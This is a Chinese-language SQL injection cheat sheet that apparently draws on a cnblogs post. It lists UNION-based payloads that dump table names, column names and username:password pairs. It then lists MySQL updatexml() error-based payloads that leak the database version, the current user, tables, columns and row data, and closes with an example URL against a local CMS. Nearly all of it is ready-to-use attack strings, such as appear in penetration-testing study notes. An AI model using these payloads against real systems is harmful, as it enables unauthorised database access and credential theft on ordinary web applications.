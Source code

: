 

[mssql注入指令 - vigarbuaa - 博客园 (cnblogs.com)](https://www.cnblogs.com/vigarbuaa/p/3371500.html)

爆表名

-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

爆列名

-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

爆字段

-1' union select 1,group_concat(username,":",password),3 from users --+

## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：XML_document是String格式，为XML文档对象的名称

第二个参数：XPath_string (Xpath格式的字符串) 

第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

因为concat()是将其连接成一个字符串，不符合xpath_string格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

##### 爆表

```mysql
and updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示 limit 0,1) ,0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868 limit 0,1) ,0x7e),1)
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x7868 and table_name= 表的十六进制表示 limit 2,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=库的十六进制表示 and table_name=表的十六进制表示 limit 2,1),0x7e),1)
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

##### 例子

```mysql
http://localhost/xhcms/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)
```